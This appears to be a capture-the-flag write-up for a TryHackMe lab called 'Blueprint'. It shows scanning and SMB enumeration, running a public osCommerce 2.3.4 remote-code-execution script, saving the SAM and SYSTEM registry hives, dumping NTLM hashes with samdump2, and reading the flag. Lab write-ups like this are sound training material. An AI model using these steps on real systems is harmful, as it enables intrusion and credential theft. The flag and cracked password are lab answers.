

# Blueprint

## Task 1

### 1.1

Run nmap scan to find ports.

```
sudo nmap -sS -sV 10.10.197.246 -oN nmap.out
```


3 web servers open, on ports 80, 443, and 8080. SMB port 445. MySQL server on port 3306. Can enumerate SMB. Will need to find MySQL credentials to access.

Will enumerate SMB with enum4linux and nmap:

```
enum4linux -a 10.10.197.246 2>&1 | tee smb_enum.out
```

```
nmap -p 445 --script smb-enum-users 10.10.197.246
```

Found workgroup 'WORKGROUP'.


Found users 'Administrator', 'Guest', and 'Lab'.


Going to port 80 gives:


Going to port 443 gives bad request. With 'http://' replaced with 'https://', gives a directory.


Going to port 8080 gives the same as port 443's web server.

Going to 'http://10.10.197.246:8080/oscommerce-2.3.4/catalog/' brings you to an e-shop website:


eshop is ran by software called 'osCommerce' and is running version 2.3.4. Will look for exploit in searchsploit:

```
searchsploit oscommerce 2.3.4
```


Found remote code execution script. Will execute with the script.

```
python3 50128.py http://10.10.197.246:8080/oscommerce-2.3.4/catalog/
```


Will copy SAM and SYSTEM files for the 'Lab' user's NTLM hash.

```
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

Since the directory that the shell is currently in can be accessed via the browser, I can download the SAM and SYSTEM files through the URL: (http://10.10.197.246:8080/oscommerce-2.3.4/catalog/install/includes)


Then I will get the hashes of all the users with samdump2:

```
samdump2 -o samdump.out SYSTEM SAM
```



Will then use Crackstation to crack the NTLM hash. The result is:

googleplus

### 1.2

To get the flag, I enter:

```
type C:\Users\Administrator\Desktop\root.txt.txt
```

THe flag is:

THM{aea1e3ce6fe7f89e10cea833ae009bee}